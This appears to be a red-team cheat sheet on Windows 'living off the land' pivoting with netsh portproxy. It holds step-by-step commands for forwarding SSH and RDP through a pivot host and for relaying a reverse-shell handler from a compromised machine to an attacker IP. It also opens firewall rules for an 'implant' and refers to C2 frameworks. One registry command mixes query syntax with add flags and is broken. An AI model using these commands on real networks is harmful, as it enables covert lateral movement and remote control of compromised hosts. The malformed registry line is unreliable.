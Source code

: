 # Living off the Land

## 01 - Usage

> [!IMPORTANT] Conditions
> Packet forwarding must be enabled.

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v IPEnableRouter /t REG_DWORD /d 0x1 /f
```

```
PS C:\> Set-NetIPInterface -Forwarding Enabled
```

Both services of `IP Helper` and **IPv6 support** must be enabled. To ensure they're enabled here are the following commands:

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\services\iphlpsvc" /v Start /t REG_DWORD /d 2 /f

C:\> sc.exe [\\<IP>] config iphlpsvc start= auto

C:\> net.exe start "IP Helper"

C:\> sc.exe [\\<IP>] start iphlpsvc
```

> [!NOTE] Elevated Privileges is Required
> `netsh interface portproxy` must be executed with administrative rights.

```
C:\> netsh.exe interface portproxy add <v4tov4 | v4tov6 | v6tov4 | v6tov6> listenport=<LPORT> listenaddress=<LHOST> connectport=<FPORT> connectaddress=<FHOST>
```

Display port forwarding rules.

```
C:\> netsh.exe interface portproxy show <all | v4tov4 | v4tov6 | v6tov4 | v6tov6>
```

Delete port forwarding rule.

```
C:\> netsh.exe interface portproxy delete v4tov4 listenaddress=<LHOST> listenport=<LPORT>
```

Flush port forwarding rules.

```
C:\> netsh.exe interface portproxy reset [ipv4 | ipv6]
```

## 02 - Scenarios

### 2.1 - Bind SSH Port

Grab the SSH port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=4242 listenaddress=<pivot_IP | 0.0.0.0> connectport=22 connectaddress=192.168.0.101
```

In command prompt

```
C:\> netstat.exe -anp TCP | find.exe "4242"

C:\> tasklist.exe | findstr.exe :4242
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 4242
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward SSH" protocol=tcp dir=in localip=<pivot_IP> localport=4242 action=allow
```

Remotely authenticate SSH server

```
$ ssh <username>@<pivot_IP> -p 4242
```

### 2.2 - Bind RDP Port

Grab the RDP port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<pivot_IP | 0.0.0.0> connectport=3389 connectaddress=<RDP_IP>
```

In command prompt

```
C:\> netstat.exe -na | findstr.exe "8080"

C:\> tasklist.exe | findstr.exe :8080
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8080
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward RDP" protocol=tcp dir=in localip=<pivot_IP> localport=8080 action=allow
```

Remotely authenticate RDP server

```
$ xfreerdp /v:<pivot_IP>:8080 /u:<username> /p:<password> /sec:<rdp | tls | nla>
```

### 2.3 - Remote Port Forwarding Reverse Shells

Port forward the reverse shell handler.

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8443 listenaddress=0.0.0.0 connectport=8443 connectaddress=<attacker_IP>
```

Check for 8443 listening port in command prompt.

```
C:\> netstat.exe -na | findstr.exe "8443"

C:\> tasklist.exe | findstr.exe :8443
```

Check for 8443 listening port in powershell.

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8443
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward Implant" protocol=tcp dir=in localip=<compromised_pivot_IP> localport=8443 action=allow
```

Then you can launch a reverse shell handler with any C2 frameworks. Just specify the compromised system's IP and PORT.

---
## References

### Backlinks

- [[Rinetd]]

### InternalAllTheThings

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

### Slayer Labs

- [Slayer Labs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Slayer Labs: Kerberos Double-Hop Workarounds](https://posts.slayerlabs.com/double-hop/)

### Shell is Coming

- [Shell is coming: Metasploit Chain of Proxies](https://www.shelliscoming.com/2013/08/metasploit-chain-of-proxies-with.html)

### DFIR Notes

- [DFIR Notes: PortProxy Detection](https://www.dfirnotes.net/portproxy_detection/)